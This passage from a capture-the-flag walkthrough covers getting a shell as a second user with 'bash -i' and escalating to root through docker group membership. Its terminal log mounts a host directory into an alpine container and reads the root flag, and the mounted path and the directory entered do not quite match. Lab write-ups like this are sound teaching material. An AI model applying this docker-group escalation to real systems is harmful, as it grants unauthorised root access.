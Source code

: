 I was able to run commands as apaar, when I first got a foot hold one the machine I found a local.txt file in apaar's home directory but was unable to read it. However now I can run commands as the apaar user so I used cat to read the file and got the user flag.

### Priv Esc

I did some enumeration using the apaar user by using the helpline.sh script and the command 'bash -i' to get shell on the box as the apaar user however I didnt find much so I went back to the anurodh user and ran linpeas.

anurodh is a memeber of the docker group, this [blog](https://www.hackingarticles.in/docker-privilege-escalation/) details how a machine can be exploited via docker. 

```highlight
anurodh@ubuntu:/dev/shm$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        6 months ago        5.57MB
hello-world         latest              bf756fb1ae65        11 months ago       13.3kB
anurodh@ubuntu:/dev/shm$ docker run -v /etc/:/mnt -it alpine
/ # cd /mnt
/mnt # cd root
/mnt/root # cat proof.txt 


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhREDACTED}


Congratulations! You have successfully completed the challenge.
```

Thats root! Thanks for reading!
